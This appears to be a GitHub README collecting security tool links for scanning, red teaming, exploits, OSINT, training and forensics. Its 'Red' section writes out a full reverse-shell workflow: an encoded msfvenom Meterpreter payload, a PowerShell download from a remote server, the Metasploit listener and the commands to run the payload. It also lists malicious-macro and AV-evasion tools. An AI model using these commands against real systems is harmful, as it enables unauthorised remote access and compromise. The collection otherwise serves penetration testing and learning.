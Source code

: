 # TI-Collection
Wide collection of tools, links, informations

## Tools & Scripts
### Scanning
**Nmap Script Collection**
- https://github.com/emadshanab/Nmap-NSE-scripts-collection

### Lists
**Web**
- https://github.com/emadshanab/Huge_DIR_wordlist
- https://github.com/emadshanab/subs_all
- https://github.com/emadshanab/WordLists-20111129
- http://wordlists.assetnote.io/

### Red
**Online Reverse Shell generator**
- https://www.revshells.com/


*Create Payload with MSFVenom*
  msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o [SHELL NAME].exe

*Upload Payload via PS & Fileserver*
  powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/shell-name.exe','shell-name.exe')"

*Open Meterpreter listener*
  use exploit/multi/handler 
  set PAYLOAD windows/meterpreter/reverse_tcp 
  set LHOST your-ip 
  set LPORT listening-port 
  run
  
* Start Process*
  Start-Process "shell-name.exe"
  
  *Spawn webserver*
  python3 -m http.server [PORT]
  
  *Search for SUID Files*
  To look for the files with SUID permission we can use the command:
find / -type f -user root -perm -4000 2>/dev/null

**Don't kill my cat** 
A tool that generates obfuscated shellcode that is stored inside of polyglot images. 
- https://github.com/Mr-Un1k0d3r/DKMC


**Malicious Macro Generator Utility**
Simple utility design to generate obfuscated macro that also include a AV / Sandboxes escape mechanism.
- https://github.com/Mr-Un1k0d3r/MaliciousMacroGenerator

**Information about EDRs that can be useful during red team exercise like hooked DLLs etc.**
- https://github.com/Mr-Un1k0d3r/EDRs

**Vulnx** is An Intelligent Bot Auto Shell Injector that detects vulnerabilities in multiple types of Cms
- https://github.com/anouarbensaad/vulnx

**Privilege Escalations**
  - Windows: https://lolbas-project.github.io/
  - Linux: https://gtfobins.github.io/

## PoCs & Exploits
**ShadowBroker Exploits & Tools**
- https://github.com/misterch0c/shadowbroker

**Wifi Fragattacks**
- https://github.com/vanhoefm/fragattacks

## OSINT
The **xCyclopedia** project attempts to document all executable binaries (and eventually scripts) that reside on a typical operating system. It provides a web page to view the data as well as a machine-readable format (JSON and CSV) that can be immediately usable in other systems such as SIEMs to enrich observed executions with contextual data.
- https://strontic.github.io/xcyclopedia/

**CyberChef**
- https://gchq.github.io/CyberChef/

**CyberChef Recipes**
- https://github.com/mattnotmax/cyberchef-recipes

# Trainings & Education

## Challenges
**CTFchallenge** is a collection of 12 vulnerable web applications, each one has its own realistic infrastructure built over several subdomains containing vulnerabilities based on bug reports, real world experiences or vulnerabilities found in the OWASP Top 10.
- https://ctfchallenge.com/


## Trainings

- https://0xdarkvortex.dev/

## Cheat Sheets

### Privilege Escelation
Cheatsheet aimed at CTF Players and Beginners to help them understand the fundamentals of Privilege Escalation with examples.
- https://github.com/Ignitetechnologies/Privilege-Escalation

# Forensics
## Data Analytics
**PcapXray**
A Network Forensics Tool - To visualize a Packet Capture offline as a Network Diagram including device identification, highlight important communication and file extraction
- https://github.com/Srinivas11789/PcapXray


